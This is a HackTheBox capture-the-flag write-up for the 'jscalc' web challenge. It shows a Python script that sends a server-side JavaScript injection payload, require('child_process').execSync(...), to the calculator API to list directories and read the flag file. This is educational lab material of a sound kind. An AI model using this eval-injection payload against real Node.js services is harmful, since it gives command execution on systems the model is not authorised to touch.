










# HackTheBox Write-Up: jscalc \[EASY] \[CATEGORY] WEB
## Description
In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑
# My approach
I first checked the challenge itself and do some testing.





# After some testing, it appeared to be working as intended. I then experimented with random strings.



It seems like there is no input sanitation at all; it accepts any input. Let's try to exploit this using a script because why not.

# Lets check the code of this challenge



A route to /api/calculate

which calls this calculatorHelper.js to run the input.



# Let's make the python script
```
import requests

url = 'http://142.93.32.153:30002/api/calculate'

data = {'formula': '1+2+3+4+5'}

res = requests.post(url, json=data)

print(res.json().get('message'))

```
First let's see if it works.



Looks like it works properly

# Now time to make the payload

We need to execute some system command in order for us to see the flag. How are we gonna do that?
First is we need to import some module for NodeJS that lets us do this, this is where the child_process module comes.
Lets try to import that by changing the value of the key 'formula' in the script



Lets run this and see the output, if there are no errors then it must be working.



No errors, it works! Now lets call a method .execSync which is part of the module 'child_process', this is the part where we will execute system commands

# Executing system commands

```
import requests

url = 'http://142.93.32.153:30002/api/calculate'

data = {'formula': 'require(\'child_process\').execSync(\'ls /\').toString()'}

res = requests.post(url, json=data)

print(res.json().get('message'))

```

What this code do is to import the module 'child_process', call execSync method where the command is 'ls /', and convert the output to string. Lets run the script and see the output.



As you can see, it displayed everything in the directory '/' and looks like we found the flag. Now change the 'ls /' to 'cat /flag.txt' and now we can see the flag



# Conclusion
In conclusion, we found a loophole in the 'jscalc' challenge due to missing input checks. Exploiting this gap allowed us to run system commands, emphasizing the importance of solid security measures in web applications.

# Reference
- https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet